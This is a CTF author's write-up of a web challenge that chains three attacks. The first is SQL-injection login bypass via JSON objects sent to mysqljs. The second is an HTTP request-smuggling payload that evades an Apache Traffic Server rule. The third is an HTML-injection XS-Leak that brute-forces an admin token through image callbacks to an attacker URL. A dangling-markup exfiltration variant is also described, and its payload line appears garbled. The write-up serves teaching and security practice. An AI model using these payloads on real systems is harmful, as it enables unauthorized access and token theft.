


# Level 5B - PALINDROME's Secret (Author Writeup)

Hey, this is my challenge! I was slightly pressed for time when coming up with this challenge so it definitely wasn't as long and elaborate as some of the later stages, but I'm happy with how it turned out. Hope everyone had fun!

You can find the challenge files here.



## Description

> We have discovered PALINDROME's secret portal, but we can't seem to gain access. Thankfully, we managed to steal the source code - can you take a look?\
> \
> Gaining access to the portal and stealing the PALINDROME admin's access token will greatly aid our efforts to curb PALINDROME's ongoing attack.\
> \
> http://chal010yo0os7fxmu2rhdrybsdiwsdqxgjdfuh.ctf.sg:23627/index\
> \
> \*NOTE\*: Solving this challenge unlocks level 6!



## Solution

### Part 1 - Gaining Access

Upon inspection of the source code, we will quickly discover that the first thing we need to do is to bypass the login, since all other endpoints are protected by `authenticationMiddleware`.

We see that the `mysqljs/mysql` package is used _without_ the `stringifyObjects: true` option:

```javascript
const db = mysql.createConnection({
    host     : 'db',
    user     : 'web',
    password : process.env.MYSQL_PASSWORD,
    database : 'palindrome'
});
```

While the email and password values are expected to be strings, the use of `express.json()` allows `Object` and `Array` types to be given as `req.body.email` and `req.body.password`.

This causes [unexpected behaviour](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4) when constructing SQL queries.

For instance, POST-ing the following JSON to `/login`:

```http
POST /login HTTP/1.1
Host: localhost
Content-Length: 97
Content-Type: application/json

{
    "email": {
        "email": 1
    },
    "password": {
        "password": 1
    }
}
```

will cause the following SQL query to be executed:

```sql
SELECT * FROM users WHERE email = `email` = 1 AND password = `password` = 1
```

which simplifies to

```sql
SELECT * FROM users WHERE 1 = 1 AND 1= 1
```

This allows us to authenticate successfully and gain access to the application.

### Part 2 - HTTP Request Smuggling

Once we gain access to the application, we would see a "Report Issue" feature which allows us to "submit a URL for the admin to check".

Yet, when we submit any URL, we are presented with the following error:

> Forbidden. Only local administrators can report issues for now.

Now is probably a good time to notice that the Express application is put behind a reverse proxy (Apache Traffic Server). The `remap.config` file specifies the URL mappings, and we could see that the `/do-report` endpoint is mapped to `/forbidden`.

```
map             /login          http://app:8000/login
map             /index          http://app:8000/index
map             /token          http://app:8000/token
map             /verify         http://app:8000/verify
map             /report-issue   http://app:8000/report-issue
map             /static         http://app:8000/static
map             /do-report      http://app:8000/forbidden
regex_redirect  http://(.*)/    http://$1/index
```

This access control mechanism prevents us from making a request to `/do-report`, unless we are doing so without going through the proxy.

Looking at the versions of Node.js and ATS used, we could find information on a HTTP request smuggling [issue](https://portswigger.net/daily-swig/node-js-was-vulnerable-to-a-novel-http-request-smuggling-technique) in the incorrect parsing of chunk extensions.

While a PoC is available, participants would need to modify it to suit this particular context.

Consider the following request, where each new line is delimited by `\r`.

```http
GET / HTTP/1.1\r\n
Host: localhost:8080\r\n
Transfer-Encoding: chunked\r\n
\r\n
3;\nxxx\r\n
139\r\n
0\r\n
\r\n
POST /do-report HTTP/1.1\r\n
Host: localhost:8080\r\n
Content-Length: 103\r\n
Cookie: connect.sid=s%3A4Tp_E2HJcMliL0-HBIe2gRJe0STpIOZW.hoetvVdAqJdACwI4BwIrHCmQR1nPjgY2YOxQMbJsDmU\r\n
Content-Type: application/json\r\n
\r\n
{"url":"http://localhost:8000/verify?token=TISC{c:n:9:4:i:7:c:n:e:m}#:~:text=TISC{1:3:3:7:l:3:4:k:1:a"}\r\n
0\r\n
\r
```

A chunk extension is used here: `3;\nxxx`. The issue is two-pronged:

1. ATS parses the LF (`\n`) as a line terminator (instead of the CRLF sequence) and forwards it.
2. The Node.js HTTP server does not check if the chunk extension contains the illegal LF character.

So ATS sees the following request:

```http
GET / HTTP/1.1
Host: localhost:8080
Transfer-Encoding: chunked

3;
xxx
139
0

POST /do-report HTTP/1.1
Host: localhost:8080
Content-Length: 103
Cookie: connect.sid=s%3A4Tp_E2HJcMliL0-HBIe2gRJe0STpIOZW.hoetvVdAqJdACwI4BwIrHCmQR1nPjgY2YOxQMbJsDmU
Content-Type: application/json

{"url":"http://localhost:8000/verify?token=TISC{c:n:9:4:i:7:c:n:e:m}#:~:text=TISC{1:3:3:7:l:3:4:k:1:a"}
0
```

Notice that here, the `POST /do-report HTTP/1.1` request is encapsulated as part of the chunked request body of the first request (and therefore not seen by ATS as a separate request).

<figure><figcaption></figcaption></figure>

When the request is forwarded to the backend, however, Node does not see `xxx` as part of a new line.

```http
GET / HTTP/1.1
Host: localhost:8080
Transfer-Encoding: chunked

3;[\n]xxx
139
0

POST /do-report HTTP/1.1
Host: localhost:8080
Content-Length: 103
Cookie: connect.sid=s%3A4Tp_E2HJcMliL0-HBIe2gRJe0STpIOZW.hoetvVdAqJdACwI4BwIrHCmQR1nPjgY2YOxQMbJsDmU
Content-Type: application/json

{"url":"http://localhost:8000/verify?token=TISC{c:n:9:4:i:7:c:n:e:m}#:~:text=TISC{1:3:3:7:l:3:4:k:1:a"}
0
```

Therefore, the `POST /do-report HTTP/1.1` request is processed as a second request instead.

This allows us to smuggle a request to the backend application, bypassing the access control implemented on ATS.

### Part 3 - Scroll-To-Text-Fragment (STTF) XS-Leak

First of all, notice in the `verify.pug` template that `username` is unescaped, since `!{...}` i used instead of `#{...}`.

```pug
.alert.alert-success(role='alert')
    | This token belongs to !{username}.
    | If !{username} asks for your token, you can give them this token: #{token}.
```

This allows us to inject HTML markup, but because of the strict Content Security Policy, we cannot perform XSS or CSS-based exfiltration.

```http
Content-Security-Policy: default-src 'self'; img-src data: *; object-src 'none'; base-uri 'none'; 
```

[STTF](https://chromestatus.com/feature/4733392803332096) is a relatively new feature in Chromium, which allows scrolling to a specific portion of a page using a text snippet in the URL. This opens up possibilities for XS-Leaks.

Notice that the CSP allows the loading of arbitrary images. This can be combined with STTF to detect if a scroll occurred, leading to the loading of a lazy-loaded image.

In order to make sure that the lazy-loaded image does not load immediately after opening the page, a simple solution is to make use of Bootstrap's `min-vh-100` class - this ensures that the `div` will take up the entire viewport.

```html
<div class="min-vh-100">Min-height 100vh</div>
<div class="min-vh-100">Min-height 100vh</div>
<div class="min-vh-100">Min-height 100vh</div>

```

When we visit the generated verification page at `/verify?token=TOKEN`, we will get the following page:

```html
...

<div class="alert alert-success" role="alert">
   This token belongs to 
   <div class="min-vh-100">Min-height 100vh</div>
   <div class="min-vh-100">Min-height 100vh</div>
   <div class="min-vh-100">Min-height 100vh</div>
   .
   If 
   <div class="min-vh-100">Min-height 100vh</div>
   <div class="min-vh-100">Min-height 100vh</div>
   <div class="min-vh-100">Min-height 100vh</div>
    asks for your token, you can give them this token: TISC{OUR_TOKEN}.
</div>

...
```

Opening the page with the `:~:text=TISC{` fragment, we can see that a scroll is induced, causing the lazy-loaded image to be fetched.

All we need to to is to automate the submission of different text fragments, and for each text fragment, detect if a callback is received. This allows us to bruteforce the admin token (the flag of the challenge) one character at a time.

Note: In order for the STTF to work on an incomplete flag, the special `TISC{x:y:z}` format is required, where each character is alphanumeric and a number occurs in at least every other character. The flag has been specially chosen with this in mind.

### Wrapping Up

The full exploit chain is automated in solve.py.

The following needs to be changed:

```python
CHALLENGE_HOST = 'localhost'    # Change this
CHALLENGE_PORT = 80             # Change this

# Change this - this is our URL that proxies to our local port 1337
OUR_URL = 'http://OUR_URL/LOADED'
```

`OUR_URL` is the URL (such as one provided by `ngrok`, or the player's own public IP) that maps to our local port 1337.

Sample script output:

<figure><figcaption></figcaption></figure>

## Unintended Solutions

### Flawed Proxy Routing

This was an unintended solution that existed in a previous version of this challenge and was fixed in the final version used in the competition.

The original `remap.config` file was as follows

```
map /do-report  http://app:8000/forbidden
map /           http://app:8000/
```

If you have attempted my challenges during SEETF (a CTF my team hosted earlier this year), you would have noticed that this suffers from the same unintended solution used by many players during SEETF to solve my [Flagportal](https://github.com/zeyu2001/My-CTF-Challenges/blob/main/SEETF-2022/web/flagportal-revenge/solve.md) challenge.

The way ATS performs remapping is to find the longest-prefix-match in the URL path, then concatenate whatever is left to the end of the resultant URL.

In this case, if we requested `//`, the resultant URL would be `http://app:8000//`. We could then extend this to `//do-report`, which would result in `http://app:8000//do-report`. The double-slashes are then normalised into a single slash.

This prompted the fixed version of this file to be used in the competition.

```
map             /login          http://app:8000/login
map             /index          http://app:8000/index
map             /token          http://app:8000/token
map             /verify         http://app:8000/verify
map             /report-issue   http://app:8000/report-issue
map             /static         http://app:8000/static
map             /do-report      http://app:8000/forbidden
regex_redirect  http://(.*)/    http://$1/index
```

### OSINT

Some time after submitting this challenge, I reported a HTTP request smuggling vulnerability to the maintainers of ATS. The vulnerability had to do with CRLF injection when downgrading from HTTP/2 to HTTP/1.1, and had nothing to do with this challenge.

This [vulnerability](https://lists.apache.org/thread/rc64lwbdgrkv674koc3zl1sljr9vwg21) got fixed and disclosed way sooner than I thought it would, and my name appeared in the search results of some people looking for ATS request smuggling vulnerabilities during the competition.

By Googling for my name in combination with ATS request smuggling, some people were able to find a writeup of the ATS vulnerability being used in combination with Waitress, which suffered from a similar vulnerability (accepting LF in chunked extensions) as the Node.js version in this challenge.

### Dangling Markup Injection

Instead of using Scroll-To-Text-Fragment, a much simpler attack would be to use a dangling markup injection that exfiltrated the admin's token to our URL through an image tag.

`">This token belongs to "> ... " ... >
```


The idea behind such an attack is that the unterminated string for `src` will run on until the next double quote, allowing us to exfiltrate the contents of the page up until the next double quote.

This is where my assumptions failed me - I had assumed that this would not be possible because Chromium would have [blocked](https://chromestatus.com/feature/5735596811091968) URLs containing newline and `<` characters. I thought that this would certainly have been the case here, as the next double quote would not be found until several lines later.

However, as stated in the [documentation](https://pugjs.org/language/plain-text.html), Pug _removes_ all whitespace between elements, unless the [`pretty` option](https://pugjs.org/api/reference.html) is explicitly set. This meant that the entire page is rendered as a single line of HTML, and the browser's defences against dangling markup injection would have been useless.
